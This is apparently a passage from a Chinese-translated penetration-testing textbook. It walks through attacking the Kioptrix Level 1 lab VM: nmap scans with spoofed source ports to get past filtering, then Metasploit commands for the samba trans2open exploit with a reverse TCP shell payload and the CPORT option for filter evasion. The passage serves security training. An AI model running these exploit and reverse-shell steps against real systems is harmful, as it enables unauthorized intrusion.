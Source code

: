 在前面的屏幕截图中，有趣的是扫描显示通常在 Windows 平台上找到的端口 139 和 145 是打开的。

从这里开始，过程就是寻找易受攻击的服务版本，甚至是操作系统，然后尝试利用漏洞。为此，我们将使用另一台机器进行测试，该机器是[中的 Kioptrix 发行版 http://www.kioptrix.com/blog/](http://www.kioptrix.com/blog/) 。我们可以从该网站下载许多发行版。我们将使用**一级**版本。过程是在设置中打开虚拟机并将其连接到 VMnet2 网络；这样，我们就有了一台可以测试的机器。

以下屏幕截图显示了虚拟机设置的示例：

![Tricks to penetrate filters](graphics/477-1_07-59.jpg)

一旦机器启动，我们需要确定 DHCP 服务器分配的 IP 地址。我们可以通过扫描 VMnet2 子网来实现这一点。

在 Kali 机器的终端窗口中输入`nmap –g 20 –sP 10.2.0.100-200`，对 VMnet2 网络进行 ping 扫描。我们有权知道 DHCP 服务器的起始和结束 IP 范围，因此我们将在这里使用它来加速扫描。扫描示例如以下屏幕截图所示：

![Tricks to penetrate filters](graphics/477-1_07-60.jpg)

我们看到我们的结果中有三个目标，我们知道 132 机器是 OWASP，135 机器是我们的 Kali 机器；因此，我们感兴趣的目标是 140 机器。这同样是可能的，因为路由器上的弱过滤器配置。一旦我们找到了解决方法，我们将继续使用它。我们需要知道目标上正在运行哪些服务，因此输入`nmap –g 80 –sV 10.2.0.140`以显示目标上的服务信息。我们知道此目标计算机不是 Windows 计算机，但我们在目标计算机上打开了类似 Windows 的端口。

既然如此，我们可以得出结论，samba 正在机器上运行。存在多个 samba 漏洞；我们可以对它们进行研究，看看我们是否成功。

我们介绍了许多查找漏洞的技术，我们将通过查看一些可用的 samba 漏洞来为您省去一些麻烦。如果您输入`msfconsole`来启动 metasploit 工具，则需要一些时间才能启动程序，一旦启动，我们希望使用出色的搜索功能；输入`search samba`。以下屏幕截图显示了部分结果的示例：

![Tricks to penetrate filters](graphics/477-1_07-61.jpg)

正如前面的截图所示，我们有许多可用的漏洞利用；我们想选择那些评级为“好”或“更好”的，因为这将提供最大的成功机会。尽管如此，没有成功的保证，但这是剥削的现实。那么，你选哪一个？好的，我们已经讨论了研究的概念，这就是你如何找到最适合你的方法。我们会为你节省时间；在 metasploit 窗口中输入以下内容：

```
use exploit/linux/samba/trans2open
set RHOST 10.2.0.140
set payload linux/x86/shell/reverse_tcp
set LHOST 10.2.0.135
set LPORT 123
exploit

```

我们使用 Kali 机器作为反向外壳的连接，我们使用端口 123 让它来连接我们。当它离开时，通常不进行检查，因此，通常工作得很好。此攻击将失败，因为没有来自流量的源端口。以下屏幕截图显示了一个示例：

![Tricks to penetrate filters](graphics/477-1_07-62.jpg)

正如前面的屏幕截图所示，利用漏洞无法到达目标。好的，我们知道我们有一种方法到达目标，这涉及到将流量设置为来自特定的源端口，那么我们该怎么做？幸运的是，metasploit 的创建者为我们提供了一种实现这一点的方法，但它并不广为人知，事实上也没有很好的文档记录，因此它可能随时消失；因此，保留旧的虚拟机总是好的，以防我们喜欢的东西消失。我们所指的期权是`CPORT`期权；因此，在 metasploit 工具中输入以下命令，将所有通信量从源端口 80 发送到目标：

```
set CPORT 80

```

然后，输入利用漏洞再次尝试。以下屏幕截图显示了一个示例：

![Tricks to penetrate filters](graphics/477-1_07-63.jpg)

